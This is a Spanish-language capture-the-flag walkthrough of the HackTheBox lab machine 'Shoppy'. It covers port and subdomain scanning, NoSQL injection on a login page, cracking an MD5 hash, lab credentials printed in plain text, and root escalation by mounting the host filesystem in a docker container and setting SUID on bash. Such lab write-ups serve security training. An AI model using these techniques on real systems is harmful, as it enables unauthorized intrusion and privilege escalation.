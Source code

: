 ```yaml
---
title: HackTheBox - Shoppy
author: cotes
date: 2023-09-20 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, 'NoSQL Injection', 'Cracking Password', 'Information Leakage', 'Docker Abusing']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Shoppy/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Shoppy Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **NoSQL Injection, Cracking Password, Information Leakage, Docker Abusing**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Shoppy/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos abiertos

* **`nmap -p<Puertos> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Shoppy/02-versions.png)

* Añadimos el host al fichero /etc/hosts

c. La página web no tiene información relevante, por lo que haremos un fuzzing de directorios y de subdominios

```bash
❯ gobuster dir -u http://shoppy.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt

**Output**
```bash
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/Login                (Status: 200) [Size: 1074]           
/admin                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]   
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]             
/fonts                (Status: 301) [Size: 177] [--> /fonts/]  
/images               (Status: 301) [Size: 179] [--> /images/] 
/js                   (Status: 301) [Size: 171] [--> /js/]     
/login                (Status: 200) [Size: 1074]


❯ wfuzz -c -t 100 --hc=404 --hh=169 -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/

000047340:   200        0 L      141 W      3122 Ch     "mattermost"
```


* El panel de **login** es vulnerable a inyección [No SQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

    ![](/assets/images/HTB/Easy/Shoppy/03-nosql.png)

* Una vez en el sistema, podemos buscar usuario en el sistema, aquí también existe una inyección NOSQL y podremos descargar un fichero en el que se representará la información de todos los usuarios

    ![](/assets/images/HTB/Easy/Shoppy/04-data.png)

d. La clave que podemos crackear es la del usuario **josh**

```bash
❯ dcode 6ebcea65320589ca4f2f1ce039975995
<SNIP>
[+] Cracked MD5 Hash : remembermethisway
```

* Este usuario y contraseña son válidos para `mattermost.shoppy.htb`, aquí veremos credenciales válidas para SSH

    ![](/assets/images/HTB/Easy/Shoppy/05-creds.png)

### Escalada de Privilegios 💹

a. Listamos nuestro privilegios a nivel de sudoers

```bash
jaeger@shoppy:/home/deploy$ sudo -l
[sudo] password for jaeger: Sh0ppyBest@pp!

    (deploy) /home/deploy/password-manager
```

* Si le hacemos un cat a este binario, podremos ver la contraseña

    ```bash
    jaeger@shoppy:/home/deploy$ cat password-manager
    <SNIP>
    password: Sample
    <SNIP>
    ```

b. Ahora tendremos credenciales válidas para el usuario **deploy**

```bash
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ su deploy
Password: Deploying@pp!
$ bash  
deploy@shoppy:~$
```

c. Vemos los grupos de los que somos miembros

```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

* Ejecutamos un contenedor con una montura el sistema host en el directorio `/mnt` del contenedor

    ```bash
    deploy@shoppy:~$ docker run -v /:/mnt/ --rm -it alpine chroot /mnt sh
    # chmod +s /bin/bash
    # exit
    deploy@shoppy:~$ bash -p
    bash-5.1# whoami
    root
    ```

